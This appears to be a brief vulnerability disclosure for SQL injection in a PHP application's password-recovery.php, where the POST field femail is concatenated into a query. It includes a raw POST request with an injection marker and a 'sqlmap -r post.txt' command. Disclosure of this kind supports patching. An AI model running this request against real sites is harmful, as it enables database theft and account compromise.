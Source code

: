 password-recovery.php文件中$femail直接拼接到sql语句中，而$femail是通过POST请求直接获取的
![alt text](password-recovery.php%20sql%20inject-1.png)


POST REQUEST

POST /password-recovery.php HTTP/1.1
Host: test.jc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded

send=aaa&femail=asd*

SQLmap run
sqlmap -r post.txt


![alt text](password-recovery.php%20sql%20inject-2.png)
